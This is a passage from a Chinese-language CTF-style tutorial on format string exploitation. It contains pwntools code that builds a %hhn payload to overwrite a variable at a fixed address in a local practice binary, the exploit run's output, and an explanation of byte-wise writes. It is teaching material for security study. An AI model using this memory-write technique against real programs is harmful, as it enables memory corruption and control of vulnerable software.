 ```python
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下

- offset表示要覆盖的地址最初的偏移
- size表示机器字长
- addr表示将要覆盖的地址。
- target表示我们要覆盖为的目的变量值。

相应的exploit如下

```python
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

结果如下

```python
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 78547
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
[*] Process './overwrite' stopped with exit code 0 (pid 78547)
0xfff6f9bc
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!
```

当然，我们也可以利用%n分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用%hhn则不会有这样的问题，因为这样只会修改相应地址的一个字节。

